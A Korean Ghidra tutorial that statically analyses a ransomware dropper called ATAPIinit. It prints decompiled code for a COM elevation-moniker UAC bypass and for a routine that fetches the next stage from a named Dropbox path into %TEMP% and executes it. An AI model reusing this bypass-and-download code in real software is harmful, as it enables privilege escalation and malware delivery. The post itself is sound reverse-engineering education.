

**다른 파트 보러가기**

[Re:versing으로 시작하는 ghidra 생활 Part 1 - Overview](https://hackyboiz.github.io/2021/02/07/idioth/ghidra_part1/)

[Re:versing으로 시작하는 ghidra 생활 Part 2 - Data, Functions, Scripts](https://hackyboiz.github.io/2021/03/07/idioth/ghidra_part2/)

[Re:versing으로 시작하는 ghidra 생활 Part 3 - tips for IDA User (Here!)](https://hackyboiz.github.io/2021/04/04/idioth/ghidra_part3/)

Re:versing으로 시작하는 ghidra 생활 Part 4 - Malware Analysis (1) (Here!)

[Re:versing으로 시작하는 ghidra 생활 Part 5 - Malware Analysis (2)](https://hackyboiz.github.io/2021/07/11/idioth/ghidra_part5/)

---

반갑습니다. 3일 만에 뵙는군요. 일요일 번역 글에서 말씀 드렸다시피 ghidra 글을 빠르게(?) 작성을 해왔습니다.

사실상 분석을 하면서 느낀 점은 아 이거 일일이 다 세세하게 하면 뭔가 주객이 전도되는 거 같은데... ghidra 글이 아니라 악성코드 분석에 초점이 맞춰지는 거 아닌가? ~~틀린 부분이 있으면 어떡하지~~라는 생각으로 인해 가볍게 어떠한 식으로 분석을 하기 편하게 디컴파일러를 설정할 수 있는지! 중점으로 다룰 예정입니다. 

분석을 해볼 악성코드는 ataware 랜섬웨어입니다. 스크립트 → ATAPIinit → ATAPIConfiguration → ATAPIUpdtr 순으로 바이너리를 드롭하고 악성 행위를 진행합니다.

해당 글은 ghidra에 관련된 글이기 때문에 뒤에 세 개의 바이너리를 분석할 예정입니다. 이번 게시글에서는 ATAPinit에 대해서 다루어 봅시다!

# ghidra를 통해 분석 고고

ATAPIinit 바이너리는 [app.any.run](https://app.any.run/tasks/e8e682e8-6d7f-42c8-ad3f-6afa980a77e3/)에서 받으실 수 있습니다.

일단 먼저 해당 바이너리에 대해서 알아보기 위해 Detect It Easy에 ATAPinit을 넣어봅시다.



MinGW로 컴파일되었으며, 32비트 바이너리네요.

문자열을 확인을 해서 어떤 동작을 하는지 대강 유추를 해봅시다. PEStudio로 확인을 해보도록 하겠습니다.


눈에 띄는 문자열은 `Elevation:Administrator!new:`, `CLSIDFromString`, `{6EDD6D74-C007-4E75-B76A-E5740995E24C}`, `dl.dropboxusercontent.com`정도 입니다.

`{6EDD6D74-C007-4E75-B76A-E5740995E24C}`를 통해서 구글에 검색을 해본 결과 COM Interface를 통해 UAC bypass를 하는 기법에 대해서 나오네요. `Elevation:Administarator!new:`와 연계했을 때 COM을 사용해서 권한 상승을 한 후, `dl.dropboxusercontent.com` 링크를 통해 ATAPIConfiguration을 다운로드한다라고 생각을 할 수 있습니다!


앗! 그럼 이제 대충 어떤 작업을 하는지 알았으니 ghidra를 사용하여 봅시다. 🙂

악성코드 분석 파트에서는 Variable/Function rename, Data type Redefine, Redefine Function Signature 등의 기능을 많이 사용할 예정입니다. 좀 더 보기 편하게 만들기 위해서요!

먼저 새 프로젝트(저의 경우 ataware로 만들었습니다.)를 생성한 후 ATAPIinit을 추가하고 열어서 analysis를 합시다.


## UAC Bypass 함수

Aggressive Instruction Finder는 체크가 풀려있으니 체크를 하고 Analyze를 합니다.


`entry`에서 `FUN_00401570`을 찾습니다. 이 부분을 중점적으로(?) 분석을 해볼 계획입니다. 클릭을 해서 들어가면 여러 개의 함수를 호출합니다.

```c
undefined4 FUN_00401570(void)

{
  FUN_0040da90();
  DAT_00416020 = FUN_00410ab0(0x20a);
  DAT_00416024 = FUN_00410ab0(0x20a);
  FUN_00401657(0);
  FUN_004017e4();
  return 1;
}
```

그중에서 아까 위에서 확인했던 부분인 COM을 이용하여 UAC를 우회하는 함수를 살펴봅시다! `FUN_004017e4()`로 들어가시면 됩니다. 처음 들어갔을 때, 디컴파일러에서 나오는 코드는 다음과 같습니다.

```c
void FUN_004017e4(void)

{
  HMODULE pHVar1;
  int iVar2;
  undefined *puVar3;
  int **ppiVar4;
  wchar_t local_27c [260];
  undefined4 local_74 [5];
  undefined4 local_60;
  int *local_50;
  undefined local_4c [16];
  undefined local_3c [16];
  FARPROC local_2c;
  FARPROC local_28;
  FARPROC local_24;
  int local_20;
  FARPROC local_1c;
  HMODULE local_18;
  int local_14;
  int local_10;
  
  local_10 = 0x80004005;
  local_14 = 0;
  local_50 = (int *)0x0;
  local_18 = LoadLibraryA("ole32.dll");
  local_1c = GetProcAddress(local_18,"CoInitializeEx");
  ppiVar4 = (int **)0x6;
  puVar3 = (undefined *)0x0;
  local_20 = (*local_1c)(0,6);
  pHVar1 = GetModuleHandleW(L"Ole32.dll");
  local_24 = GetProcAddress(pHVar1,"CLSIDFromString");
  pHVar1 = GetModuleHandleW(L"Ole32.dll");
  local_28 = GetProcAddress(pHVar1,"IIDFromString");
  do {
    iVar2 = (*local_24)(L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}",local_4c,puVar3,ppiVar4);
    if ((iVar2 != 0) ||
       (iVar2 = (*local_28)(L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}",local_3c), iVar2 != 0)) break;
    FUN_0040f860((undefined *)local_27c,0x208);
    wcscpy(local_27c,L"Elevation:Administrator!new:");
    wcscat(local_27c,L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}");
    FUN_0040f860((undefined *)local_74,0x24);
    local_74[0] = 0x24;
    local_60 = 4;
    pHVar1 = GetModuleHandleW(L"Ole32.dll");
    local_2c = GetProcAddress(pHVar1,"CoGetObject");
    ppiVar4 = &local_50;
    puVar3 = local_3c;
    local_10 = (*local_2c)(local_27c,local_74);
    FUN_00401a0f();
    local_10 = (**(code **)(*local_50 + 0x24))(local_50,DAT_00416028,0,0,0,5);
  } while (local_14 != 0);
  if (local_50 != (int *)0x0) {
    (**(code **)(*local_50 + 8))(local_50);
  }
  return;
}
```

`GetProcAddress`로 함수들의 주소를 가져와서... 함수 포인터로 실행을 하는데 뭐가 무엇을 하는지  눈에 확인하기가 어렵습니다. 이럴 때는 Rename Variable (L)과 Retype Variable (Ctrl + L)을 사용하여 한눈에 보기 쉽게 만들 수도 있고, 파라미터로 들어가는 값들의 데이터 타입도 자동으로 맞춰 줍니다.


`local_18`과 `local_1c`의 이름을 변경했습니다. `FARPROC`으로 되어있는 `CoInitializeEx_addr`은 `CoInitializeEx`의 주소를 담고 있으니, 데이터 타입을 `CoInitializeEx *`로 바꾸어볼까요?

`CoInitializeEx_addr`에 마우스 커서를 올리고 우클릭 후 Retype Variable 혹은 Ctrl + L을 누르면 다음과 같은 창이 뜹니다. 거기에 적혀있는 `FARPROC`을 지우고 `CoInitializeEx *`를 작성한 후 OK!


그럼 위와 같이 함수 타입을 설정하는 창이 뜹니다. 우리가 사용할 함수가 맞으니까 OK 버튼을 눌러주면 다음과 같이 바뀝니다.


한눈에 보기 훨씬 편해졌습니다.

다른 부분도 위와 동일하게 Rename, Retype을 진행한 후 해당 함수에서 호출하는 다른 함수들이 어떠한 동작을 하는지 확인해봅시다.

먼저 `FUN_0040f860`를 살펴봅시다.

```c
void FUN_0040f860(undefined *param_1,int param_2)

{
  undefined *puVar1;
  
  puVar1 = param_1 + param_2;
  if (param_2 != 0) {
    do {
      *param_1 = 0;
      param_1 = param_1 + 1;
    } while (puVar1 != param_1);
  }
  return;
}
```

포인터를 받아서 `param2`만큼 0으로 초기화합니다. 해당 함수는 `RtlSecureMemory()`와 매우 흡사하죠.

```c
#define __CRT__NO_INLINE 1
#include <windows.h>

PVOID WINAPI RtlSecureZeroMemory(PVOID ptr,SIZE_T cnt)
{
  volatile char *vptr = (volatile char *)ptr;
#ifdef __x86_64
  __stosb ((PBYTE)((DWORD64)vptr),0,cnt);
#else
  while (cnt != 0)
    {
      *vptr++ = 0;
      cnt--;
    }
#endif /* __x86_64 */
  return ptr;
```

출처 : [https://github.com/Alexpux/mingw-w64/blob/master/mingw-w64-crt/intrincs/RtlSecureZeroMemory.c](https://github.com/Alexpux/mingw-w64/blob/master/mingw-w64-crt/intrincs/RtlSecureZeroMemory.c)

해당 함수의 이름을 `RtlSecureMemory`로 하고 Function Signature를 수정하도록 하겠습니다. 함수 이름에 커서를 올린 후 우클릭 - Edit Function Signature를 클릭하여 위의 소스 코드에 나온 Signature와 동일하게 수정해줍니다. 


그리고 OK를 클릭하면

```c
PVOID RtlSecureMemory(PVOID param_1,SIZE_T param_2)

{
  undefined *puVar1;
  
  puVar1 = (undefined *)((int)param_1 + param_2);
  if (param_2 != 0) {
    do {
      *(undefined *)param_1 = 0;
      param_1 = (PVOID)((int)param_1 + 1);
    } while (puVar1 != (undefined *)param_1);
  }
  return;
}
```

깔끔하게(?) 바뀐 것을 확인할 수 있습니다.


하하하 괜찮습니다. 그럼 이제 다음 함수인 `FUN_00401a0f`가 어떠한 동작을 하는지 확인해봅시다.


앞부분을 읽어보니 인터넷에 연결을 해서 해당 URL에서 ATAPIConfiguration을 다운로드하는 함수임을 짐작할 수 있습니다. 일단 함수명을 `download_ATAPIConfiguration`이라고 합시다. 이 함수의 전체적인 동작 기능을 정리해보면

1. [COM 인터페이스를 사용하여 UAC를 우회](https://gist.github.com/api0cradle/d4aaef39db0d845627d819b2b6b30512)
2. 인터넷에서 ATAPIConfiguration을 다운로드

그럼 해당 함수 이름은 uac_bypass_and_download_file로 하여 정리를 하면 다음과 같은 코드가 됩니다.

```c
void uac_bypass_download_file(void)

{
  HMODULE HModule;
  HRESULT HVar1;
  wchar_t string [260];
  BIND_OPTS pBindOptions;
  undefined4 local_60;
  int *ppv;
  CLSID local_4c;
  IID riid;
  CoGetObject *CoGetObject_addr;
  IIDFromString *IIDFromString_addr;
  CLSIDFromString *CLSIDFromString_addr;
  HRESULT local_20;
  CoInitializeEx *CoInitializeEx_addr;
  HMODULE hModule;
  int local_14;
  HRESULT local_10;
  
  local_10 = 0x80004005;
  local_14 = 0;
  ppv = (int *)0x0;
  hModule = LoadLibraryA("ole32.dll");
  CoInitializeEx_addr = (CoInitializeEx *)GetProcAddress(hModule,"CoInitializeEx");
  local_20 = (*CoInitializeEx_addr)((LPVOID)0x0,6);
  HModule = GetModuleHandleW(L"Ole32.dll");
  CLSIDFromString_addr = (CLSIDFromString *)GetProcAddress(HModule,"CLSIDFromString");
  HModule = GetModuleHandleW(L"Ole32.dll");
  IIDFromString_addr = (IIDFromString *)GetProcAddress(HModule,"IIDFromString");
  do {
    HVar1 = (*CLSIDFromString_addr)(L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}",(LPCLSID)&local_4c);
    if ((HVar1 != 0) ||
       (HVar1 = (*IIDFromString_addr)(L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}",(LPIID)&riid),
       HVar1 != 0)) break;
    RtlSecureZeroMemory(string,0x208);
    wcscpy(string,L"Elevation:Administrator!new:");
    wcscat(string,L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}");
    RtlSecureZeroMemory(&pBindOptions,0x24);
    pBindOptions.cbStruct = 0x24;
    local_60 = 4;
    HModule = GetModuleHandleW(L"Ole32.dll");
    CoGetObject_addr = (CoGetObject *)GetProcAddress(HModule,"CoGetObject");
    local_10 = (*CoGetObject_addr)(string,&pBindOptions,&riid,&ppv);
    download_ATAPIConfiguration();
    local_10 = (**(code **)(*ppv + 0x24))(ppv,download_path,0,0,0,5);
  } while (local_14 != 0);
  if (ppv != (int *)0x0) {
    (**(code **)(*ppv + 8))(ppv);
  }
  return;
}
```

## ATAPIConfiguration 다운로드 함수

이제 아까 지나쳤던 `download_ATAPIConfiguration()`을 분석을 해봅시다.

```c
undefined4 download_ATAPIConfiguration(void)

{
  char cVar1;
  bool bVar2;
  undefined4 uVar3;
  HMODULE pHVar4;
  int iVar5;
  size_t sVar6;
  undefined4 *puVar7;
  uint uVar8;
  LPCSTR pCVar9;
  int local_64;
  undefined4 local_60;
  undefined4 local_5c;
  uint local_58;
  FARPROC local_54;
  FARPROC local_50;
  FARPROC local_4c;
  HANDLE local_48;
  FARPROC local_44;
  char *local_40;
  void *local_3c;
  int local_38;
  FARPROC local_34;
  FARPROC local_30;
  FARPROC local_2c;
  int local_28;
  FARPROC local_24;
  int local_20;
  FARPROC local_1c;
  int local_18;
  FARPROC local_14;
  HMODULE local_10;
  
  local_10 = LoadLibraryA("wininet.dll");
  local_14 = GetProcAddress(local_10,"InternetOpenW");
  local_18 = (*local_14)(L"WINDOWS",0,0,0,0);
  if (local_18 == 0) {
    uVar3 = 0xe;
  }
  else {
    pHVar4 = GetModuleHandleW(L"wininet.dll");
    local_1c = GetProcAddress(pHVar4,"InternetConnectW");
    local_20 = (*local_1c)(local_18,L"dl.dropboxusercontent.com",0x1bb,0,0,3,0,1);
    if (local_20 == 0) {
      uVar3 = 0xe;
    }
    else {
      pHVar4 = GetModuleHandleW(L"wininet.dll");
      local_24 = GetProcAddress(pHVar4,"HttpOpenRequestW");
      local_28 = (*local_24)(local_20,&DAT_00413270,L"/s/uzu60whrg1spnyy/ATAPIConfiguration",0,0,0,
                             0x800000,1);
      if (local_28 == 0) {
        uVar3 = 0xe;
      }
      else {
        local_5c = 4;
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_2c = GetProcAddress(pHVar4,"InternetQueryOptionW");
        iVar5 = (*local_2c)(local_28,0x1f,&local_58,&local_5c);
        if (iVar5 != 0) {
          pHVar4 = GetModuleHandleW(L"wininet.dll");
          local_30 = GetProcAddress(pHVar4,"InternetSetOptionW");
          local_58 = local_58 | 0x1180;
          (*local_30)(local_28,0x1f,&local_58,4);
        }
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_34 = GetProcAddress(pHVar4,"HttpSendRequestA");
        local_38 = (*local_34)(local_28,0,0,0,0);
        local_3c = malloc(16000);
        memset(local_3c,0,16000);
        memset(DAT_00416028,0,0x1000);
        local_40 = getenv("TEMP");
        sVar6 = strlen(local_40);
        DAT_0041602c = (LPCSTR)malloc(sVar6 + 0x1000);
        strcpy(DAT_0041602c,local_40);
        uVar8 = 0xffffffff;
        pCVar9 = DAT_0041602c;
        do {
          if (uVar8 == 0) break;
          uVar8 = uVar8 - 1;
          cVar1 = *pCVar9;
          pCVar9 = pCVar9 + 1;
        } while (cVar1 != '\0');
        puVar7 = (undefined4 *)(DAT_0041602c + (~uVar8 - 1));
        *puVar7 = 0x4154415c;
        puVar7[1] = 0x6f434950;
        puVar7[2] = 0x6769666e;
        puVar7[3] = 0x74617275;
        puVar7[4] = 0x2e6e6f69;
        puVar7[5] = 0x657865;
        MultiByteToWideChar(0,0,DAT_0041602c,-1,DAT_00416028,0x1000);
        pHVar4 = GetModuleHandleW(L"kernel32.dll");
        local_44 = GetProcAddress(pHVar4,"CreateFileW");
        local_48 = (HANDLE)(*local_44)(DAT_00416028,0xc0000000,0,0,2,0x80,0);
        local_60 = 0;
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_4c = GetProcAddress(pHVar4,"InternetReadFile");
        pHVar4 = GetModuleHandleW(L"kernel32.dll");
        local_50 = GetProcAddress(pHVar4,"WriteFile");
        if (local_38 == 0) {
          uVar3 = 0xe;
        }
        else {
          local_64 = 0;
          while( true ) {
            iVar5 = (*local_4c)(local_28,local_3c,0x2000,&local_64);
            if ((iVar5 == 0) || (local_64 == 0)) {
              bVar2 = false;
            }
            else {
              bVar2 = true;
            }
            if (!bVar2) break;
            (*local_50)(local_48,local_3c,local_64,&local_60,0);
          }
          pHVar4 = GetModuleHandleW(L"wininet.dll");
          local_54 = GetProcAddress(pHVar4,"InternetCloseHandle");
          CloseHandle(local_48);
          (*local_54)(local_18);
          (*local_54)(local_20);
          (*local_54)(local_28);
          uVar3 = 1;
        }
      }
    }
  }
  return uVar3;
}
```

이 친구도 상당히 지저분하네요. 정리가 필요할 듯합니다. 아까 사용한 방법처럼 먼저 Handle과 함수 포인터들을 정리해줍시다!


하지만... `InternetOpenW`의 데이터 타입이 없다고 나옵니다. 흠... 뭐가 문제일까? Data Type Manager에서 찾아봅시다. `InternetOpenW()`는 `wininet.h`에 존재하는 함수이니 `wininet.h`가 있는지 확인을 해볼까요?


없네요... 그럼 기능을 사용하지 못하는 걸까요? MSDN을 보고 손수 작성을 해야 하는 건가? 직접 헤더 파일을 추가해야 하는 건가? 직접 헤더 파일을 추가하는 방법도 있지만, 이런 WinAPI들의 아카이브 파일을 누군가 github에 올려놓았습니다!

저는 Visual Studio Community를 다운로드해서 해당 헤더 파일을 직접 추가하고자 하였으나 어떤 이유에서인지... 각종 reference를 찾아서 똑같이 해도 추가가 안되더라고요... 똑같은 행위를 반복하며 엔터를 계속 누르며 분노 게이지가 차고 있었습니다.


그러던 와중 아래의 github repo는 저에게 큰 도움이 되었죠!

[https://github.com/0x6d696368/ghidra-data/tree/master/typeinfo](https://github.com/0x6d696368/ghidra-data/tree/master/typeinfo)

해당 프로그램은 32비트 바이너리이므로 `winapi_32.gdt` 파일을 다운로드합니다.


그 후 Data Type Manager의 우측 상단에 아래쪽 화살표 모양을 클릭한 후 Open File Archive를 클릭합니다.


그다음 다운로드한 gdt 파일을 열어주면 끝!


이제 추가가 되어 있는 모습을 확인할 수 있습니다... 후후 다른 함수 포인터들도 모두 적용하도록 하죠. 적용이 완료된 소스 코드는 다음과 같습니다.

```c
undefined4 download_ATAPIConfiguration(void)

{
  char cVar1;
  bool bVar2;
  undefined4 uVar3;
  HMODULE hModule;
  int iVar4;
  size_t temp_path_len;
  undefined4 *puVar5;
  uint uVar6;
  LPCSTR pCVar7;
  int local_64;
  undefined4 local_60;
  undefined4 lpdwBufferLength;
  uint lpBuffer;
  FARPROC InternetCloseHandle_addr;
  FARPROC WriteFile_addr;
  FARPROC InternetReadFile_addr;
  HANDLE local_48;
  FARPROC CreateFileW_addr;
  char *temp_path;
  void *local_3c;
  int local_38;
  FARPROC HttpSendRequestA_addr;
  FARPROC InternetSetOptionW;
  FARPROC InternetQueryOptionW_addr;
  int hInternet;
  FARPROC HttpOpenRequestW_addr;
  int hConnect;
  FARPROC InternetConnectW_addr;
  int local_18;
  FARPROC InternetOpenW_addr;
  HMODULE local_10;
  
  local_10 = LoadLibraryA("wininet.dll");
  InternetOpenW_addr = GetProcAddress(local_10,"InternetOpenW");
  local_18 = (*InternetOpenW_addr)(L"WINDOWS",0,0,0,0);
  if (local_18 == 0) {
    uVar3 = 0xe;
  }
  else {
    hModule = GetModuleHandleW(L"wininet.dll");
    InternetConnectW_addr = GetProcAddress(hModule,"InternetConnectW");
    hConnect = (*InternetConnectW_addr)(local_18,L"dl.dropboxusercontent.com",0x1bb,0,0,3,0,1);
    if (hConnect == 0) {
      uVar3 = 0xe;
    }
    else {
      hModule = GetModuleHandleW(L"wininet.dll");
      HttpOpenRequestW_addr = GetProcAddress(hModule,"HttpOpenRequestW");
      hInternet = (*HttpOpenRequestW_addr)
                            (hConnect,&DAT_00413270,L"/s/uzu60whrg1spnyy/ATAPIConfiguration",0,0,0,
                             0x800000,1);
      if (hInternet == 0) {
        uVar3 = 0xe;
      }
      else {
        lpdwBufferLength = 4;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetQueryOptionW_addr = GetProcAddress(hModule,"InternetQueryOptionW");
        iVar4 = (*InternetQueryOptionW_addr)(hInternet,0x1f,&lpBuffer,&lpdwBufferLength);
        if (iVar4 != 0) {
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetSetOptionW = GetProcAddress(hModule,"InternetSetOptionW");
          lpBuffer = lpBuffer | 0x1180;
          (*InternetSetOptionW)(hInternet,0x1f,&lpBuffer,4);
        }
        hModule = GetModuleHandleW(L"wininet.dll");
        HttpSendRequestA_addr = GetProcAddress(hModule,"HttpSendRequestA");
        local_38 = (*HttpSendRequestA_addr)(hInternet,0,0,0,0);
        local_3c = malloc(16000);
        memset(local_3c,0,16000);
        memset(download_path,0,0x1000);
        temp_path = getenv("TEMP");
        temp_path_len = strlen(temp_path);
        DAT_0041602c = (LPCSTR)malloc(temp_path_len + 0x1000);
        strcpy(DAT_0041602c,temp_path);
        uVar6 = 0xffffffff;
        pCVar7 = DAT_0041602c;
        do {
          if (uVar6 == 0) break;
          uVar6 = uVar6 - 1;
          cVar1 = *pCVar7;
          pCVar7 = pCVar7 + 1;
        } while (cVar1 != '\0');
        puVar5 = (undefined4 *)(DAT_0041602c + (~uVar6 - 1));
        *puVar5 = 0x4154415c;
        puVar5[1] = 0x6f434950;
        puVar5[2] = 0x6769666e;
        puVar5[3] = 0x74617275;
        puVar5[4] = 0x2e6e6f69;
        puVar5[5] = 0x657865;
        MultiByteToWideChar(0,0,DAT_0041602c,-1,download_path,0x1000);
        hModule = GetModuleHandleW(L"kernel32.dll");
        CreateFileW_addr = GetProcAddress(hModule,"CreateFileW");
                    /* GENERIC_READ | GENERIC_WRITE */
        local_48 = (HANDLE)(*CreateFileW_addr)(download_path,0xc0000000,0,0,2,0x80,0);
        local_60 = 0;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetReadFile_addr = GetProcAddress(hModule,"InternetReadFile");
        hModule = GetModuleHandleW(L"kernel32.dll");
        WriteFile_addr = GetProcAddress(hModule,"WriteFile");
        if (local_38 == 0) {
          uVar3 = 0xe;
        }
        else {
          local_64 = 0;
          while( true ) {
            iVar4 = (*InternetReadFile_addr)(hInternet,local_3c,0x2000,&local_64);
            if ((iVar4 == 0) || (local_64 == 0)) {
              bVar2 = false;
            }
            else {
              bVar2 = true;
            }
            if (!bVar2) break;
            (*WriteFile_addr)(local_48,local_3c,local_64,&local_60,0);
          }
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetCloseHandle_addr = GetProcAddress(hModule,"InternetCloseHandle");
          CloseHandle(local_48);
          (*InternetCloseHandle_addr)(local_18);
          (*InternetCloseHandle_addr)(hConnect);
          (*InternetCloseHandle_addr)(hInternet);
          uVar3 = 1;
        }
      }
    }
  }
  return uVar3;
}
```

함수가 많이 기네요... 위에서부터 내려가 봅시다.


`HttpOpenRequestW`를 통해 `dl.dropboxusercontent.com/s/uzu60whrglspnyy/ATAPIConfiguration`에 연결합니다.


TEMP 폴더의 경로를 가져와 다운로드할 경로를 설정하는 것 같습니다. 근데 hex로 되어 있어서 확인하기 어렵네요. 디스 어셈블 창에서 Conver → Char Sequence로 어떤 문자열인지 확인해봅시다.


`\\ATAPIConfiguration.exe\0`네요. 이제 경로 설정까지 했으니 파일을 읽어와 해당 경로에 생성하겠죠?


빙고입니다. 정리하면 `download_ATAPIConfiguration()`은 `dl.dropboxusercontent.com/s/uzu60whrglspnyy/ATAPIConfiguration`에 접속해서 `%TEMP%\ATAPIConfiguration.exe`로 파일을 다운로드한다!

# to be continued...

다음에는 ATAPIConfiguration에 대해서 다뤄볼 예정입니다. 원래 한 글에 모두 다 담으려 했는데 생각보다 많이 길어졌네요. 다른 분석은 모두 제외하고 ghidra를 사용한 정적 분석만 진행하는 것이라 틀린 내용이 존재할 수도 있습니다! 그럼 최대한 빨리 다음 파트를 준비해오도록 하겠습니다. 그럼 모두 안녕~